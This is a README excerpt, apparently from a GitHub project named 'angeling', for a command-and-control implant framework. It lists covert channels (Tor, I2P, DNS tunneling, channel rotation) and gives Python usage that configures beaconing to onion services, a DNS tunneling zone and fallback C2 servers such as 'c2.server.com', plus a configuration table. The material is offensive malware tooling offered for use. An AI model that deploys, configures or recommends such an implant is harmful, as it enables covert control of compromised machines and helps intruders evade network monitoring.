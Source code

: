 ### Modules.Comms
Secure communication channels:
- Tor network integration
- I2P network support
- DNS tunneling
- Channel rotation
- Identity management

## Usage

### Basic Usage
```python
from angeling.main import Angel

# Initialize with basic configuration
angel = Angel({
    'beacon_interval': 300,
    'onion_services': ['your.onion'],
    'dns_servers': ['8.8.8.8']
})

# Start operation
angel.run()
```

### Advanced Usage
```python
config = {
    'beacon_interval': 300,
    'onion_services': ['your.onion'],
    'dns_servers': ['8.8.8.8'],
    'dns_zone': 'your-zone.com',
    'c2_servers': ['c2.server.com']
}

angel = Angel(config)
angel.run()
```

## Configuration

### Configuration Options
| Option | Description | Default |
|--------|-------------|---------|
| beacon_interval | Beacon interval (seconds) | 300 |
| onion_services | List of .onion services | [] |
| dns_servers | DNS servers for tunneling | ['8.8.8.8'] |
| dns_zone | DNS zone for tunneling | None |
| c2_servers | Fallback C2 servers | [] |
